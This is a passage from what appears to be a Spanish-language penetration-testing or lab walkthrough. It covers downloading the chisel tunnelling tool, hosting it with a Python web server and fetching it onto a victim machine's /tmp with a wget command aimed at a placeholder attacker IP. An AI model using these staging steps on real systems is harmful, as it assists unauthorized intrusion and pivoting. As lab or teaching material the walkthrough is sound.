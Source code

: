Lo primero que tenemos que hacer es descargar chisel en nuestro equipo, para ello visitamos la siguiente cuenta de GitHub. 

```
https://github.com/jpillora/chisel
```

En el apartado Releases, descargamos la versión para Linux (chisel_1.10.1_linux_amd64.gz). Una vez descargado, nos lo vamos a mover a nuestro directorio exploits, y vamos a descomprimir este archivo .gz. También vamos a darle permisos de ejecución 

```bash
7z x [Archivo.gz]
chmod +x [Archivo]
```

Como vemos en la imagen, ahí tenemos nuestro chisel. 

![Imagen035](35.jpeg)

Ahora vamos a tener que pasar este archivo, a la máquina objetivo. Para ello, en el mismo directorio exploits, donde se encuentra el archivo, montamos un servidor web con Python 

```bash
python3 -m http.server 80
```

Ahora en la máquina víctima, vamos a descargar el archivo. Para ello, vamos a ir al directorio /tmp, ya que bajo este directorio normalmente contaremos con permisos de escritura, y vamos a ejecutar el siguiente comando 

```bash
wget http://[IPAtacante]/chisel
```

Como vemos en la imagen, ahora tenemos chisel en la máquina objetivo. También le vamos a dar permisos de ejecución con el siguiente comando 

```bash
chmod +x [archivo]
```
